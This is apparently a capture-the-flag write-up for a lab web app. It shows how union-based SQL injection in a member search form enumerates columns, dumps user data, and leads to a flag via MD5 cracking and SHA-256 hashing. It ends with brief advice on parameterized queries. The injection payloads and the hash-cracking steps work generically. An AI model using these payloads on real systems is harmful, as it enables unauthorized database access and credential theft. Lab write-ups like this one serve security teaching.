 # SQL INJECTION

## The flag

```
THE FLAG IS : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## How to find it ?

On the page http://10.12.1.121/index.php?page=member

The search member form may reach an SQL request that looks like this :
SELECT last_name, first_name FROM Users WHERE Id=

- To get the request columns number
1 OR 1=1 UNION SELECT NULL--
-> error
1 OR 1=1 UNION SELECT NULL, NULL--
-> good so 2 columns

- To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
-> user_id, first_name, last_name, town, country, planet, Commentaire, countersign

- To see all user's data
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
-> user_id = 5
-> FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
-> FortyTwo
lower('FortyTwo')
-> fortytwo
sh256('fortytwo')
-> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## How to use it ?

Dumb and get all database infos


## How to avoid it ?

Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.